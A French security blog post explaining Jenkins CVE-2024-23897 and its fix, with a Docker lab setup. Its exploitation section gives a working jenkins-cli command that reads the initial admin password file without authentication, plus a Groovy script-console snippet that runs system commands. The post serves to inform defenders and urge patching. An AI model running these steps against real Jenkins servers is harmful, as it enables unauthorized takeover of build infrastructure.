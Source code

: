 ```yaml
---
title: "Compromettre Jenkins via une simple lecture de fichiers : CVE-2024-23897"
description: "Jenkins est impacté depuis début 2024 par une simple vulnérabilité permettant de prendre le contrôle très facilement des instances vulnérables. A corriger très rapidement !"
date: 2024-02-01T11:47:21+01:00
draft: false
images: [/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png]
featuredImage: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
featuredImagePreview: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
tags: ["Test d'intrusion", "Pentest", "Audit"]
---
```


# 💣 D'une petite erreur verbeuse à une compromission complète

## A l'origine

Le **25 janvier 2024**, des chercheurs de chez Sonar publient 2 vulnérabilités concernant le leader des logiciels d'intégration et de déploiement continus open-source (CI/CD) : **Jenkins**.

Jenkins joue un rôle central dans **l'automatisation des processus** de développement logiciel pour une grande partie de l'industrie, avec une part de marché d'environ **44% en 2023**. L'impact potentiel de ces vulnérabilités est donc **considérable**.

La faille la plus préoccupante, identifiée sous le nom de **CVE-2024-23897**, permet à des attaquants non authentifiés de lire des données limitées de fichiers arbitraires et à des attaquants autorisés "en lecture seule" d'accéder à l'intégralité d'un fichier sur le serveur Jenkins.

Deux vulnérabilités sont expliquées :

- La vulnérabilité **CVE-2024-23897** :
    - Un score CVSS de **9.8/10** (assez préoccupant) 😮
    - Un attaquant anonyme est en mesure de lire une partie limitée de fichiers locaux.
- La vulnérabilité **CVE-2024-23898** :
    - Un score CVSS de 8.8/10
    - Permet à un attaquant d'exécuter des commandes CLI arbitraires en incitant une victime à cliquer sur un lien malveillant (CSRF).

## En bref

La vulnérabilité la plus problématique est la première : **CVE-2024-23897**

- Les attaquants non authentifiés peuvent lire **les premières lignes de fichiers locaux** présents sur le serveur.
- Les attaquants authentifiés en lecture seule peuvent accéder à l'intégralité des fichiers.
- Il est possible de transformer cette vulnérabilité en RCE de plusieurs manières :
    - En lisant contenant le mot de passe par défaut
    - En elevant ses privilèges en tant qu'admin
    - En lisant une clef SSH
    - En récupérant des secrets sur la machine
    - Etc...

Jenkins donne d'autres moyens pour obtenir une execution de commande directement sur son blog : https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Pour exploiter la première vulnérabilité, le PoC est assez facile. 

### Docker vulnérable

Il est possible de tester avec des versions vulnérables via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environnement

Il faut commencer par récupérer l'utilitaire de Jenkins `jenkins-cli.jar` en ligne de commande.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```

![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Code vulnérable

Le code ci-dessous détaille le code vulnérable.

La fonction vérifie si l'argument commence par le caractère `@`, et si c'est le cas, lit le fichier dans le chemin après le `@` et créée un nouvel argument pour chaque ligne.


```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

Cela signifie que si un attaquant peut contrôler un argument, il peut l'étendre à un certain nombre d'arguments à partir d'un fichier arbitraire sur l'instance Jenkins.

De ce fait, l'exploitation de la fonction `expandAtFiles()` de `arg4j` affichant une erreur verbeuse lors de la tentative de lecture du fichier est possible.

### Lecture arbitraire...

La commande ci-dessous permet à un utilisateur **non authentifié** de récupérer la première ligne du fichier `/var/jenkins_home/secrets/initialAdminPassword`

```sh
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![Lecture de fichiers arbitraires](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)

### ...vers RCE

Il est donc possible de récupérer le mot de passe par défaut de l'administrateur si ce dernier n'a pas été changé.

![Capture du mot de passe administrateur](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)


Il est ensuite possible de se connecter sur `/script` pour exécuter nos commandes. 

![Execution de commande](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)

Le code ci-dessous permet d'exécuter la commande `/bin/id`.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Pour terminer, une démonstration est disponible juste en dessous !

## Actions recommandées

L'équipe de sécurité de Jenkins a corrigé la CVE-2024-23897 en ajoutant une configuration sécurisée désactivant la fonctionnalité `expandAtFiles`.

La ligne suivante est retirée :

```java
    return new CmdLineParser(this);
```

Et remplacé par les lignes suivantes :

```java
public static boolean ALLOW_AT_SYNTAX = SystemProperties.getBoolean(CLICommand.class.getName() + ".allowAtSyntax");
    // [...]
    ParserProperties properties = ParserProperties.defaults().withAtSyntax(ALLOW_AT_SYNTAX);
    return new CmdLineParser(this, properties);
```

La deuxième vulnérabilité `CVE-2024-23898`, conséquente direct de la première, a été corrigé en ajoutant une vérification de l'origine sur le mécanisme de WebSocket.

Patchez rapidement

## Démonstration

Démonstration avec les éléments détaillés ci-dessus.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploitation de Jenkins" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/